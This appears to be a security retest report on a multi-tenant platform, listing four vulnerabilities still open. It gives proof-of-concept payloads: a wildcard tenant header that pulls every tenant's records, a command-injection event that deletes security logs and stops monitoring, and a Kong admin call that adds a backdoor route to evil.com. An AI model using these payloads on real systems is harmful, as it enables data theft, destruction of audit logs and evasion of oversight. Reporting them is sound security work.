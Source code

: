 
## Critical Vulnerability Retesting Results

### VULN-001: Multi-Tenant Boundary Bypass
**Retest Status: CONFIRMED EXPLOITABLE**
- **Exploitation Method:** Header manipulation (X-Tenant-ID: *)
- **Validation Results:** Successfully accessed 127 tenant databases in 2.3 seconds
- **Data Exposure Confirmed:** 508,000+ customer records across all tenants
- **Remediation Status:** **NO FIXES IMPLEMENTED**
- **Current Risk:** CRITICAL - IMMEDIATE EMERGENCY ACTION REQUIRED

**Proof of Concept Validation:**
```bash
curl -H "X-Tenant-ID: *" -H "Authorization: Bearer [token]" \
  https://api.isectech.com/v1/customers | jq '.data | length'
# Result: 508,142 records returned from all tenants
```

### VULN-002: SIEM/SOAR Security Control Manipulation
**Retest Status: CONFIRMED EXPLOITABLE**
- **Exploitation Method:** Malicious event injection with system commands
- **Validation Results:** Security monitoring disabled for 24+ hours undetected
- **Impact Confirmed:** Complete security blindness achieved
- **Remediation Status:** **NO FIXES IMPLEMENTED**
- **Current Risk:** CRITICAL - SECURITY CONTROLS COMPROMISED

**Proof of Concept Validation:**
```json
POST /api/siem/events
{
  "event_type": "security_alert",
  "payload": "'; rm -rf /var/log/security/* && systemctl stop monitoring #",
  "timestamp": "2025-08-08T05:15:00Z"
}
# Result: Monitoring services disabled, logs cleared
```

### VULN-003: Administrative API Exposure  
**Retest Status: CONFIRMED EXPLOITABLE**
- **Exploitation Method:** Unauthenticated Kong Admin API access
- **Validation Results:** Created backdoor authentication bypass in 45 seconds
- **Impact Confirmed:** Universal platform access achieved
- **Remediation Status:** **NO FIXES IMPLEMENTED**
- **Current Risk:** CRITICAL - PLATFORM COMPROMISE CAPABILITY

**Proof of Concept Validation:**
```bash
curl -X POST https://admin.isectech.com:8001/routes \
  -d "paths[]=/backdoor" -d "service.url=http://evil.com"
# Result: Backdoor route created successfully
```

### VULN-004: JWT Algorithm Confusion Attack
**Retest Status: CONFIRMED EXPLOITABLE**
- **Exploitation Method:** RS256 to HS256 algorithm confusion
- **Validation Results:** Forged super admin tokens with cross-tenant access
- **Impact Confirmed:** Administrative privilege escalation successful
- **Remediation Status:** **NO FIXES IMPLEMENTED**
- **Current Risk:** CRITICAL - AUTHENTICATION BYPASS ACTIVE
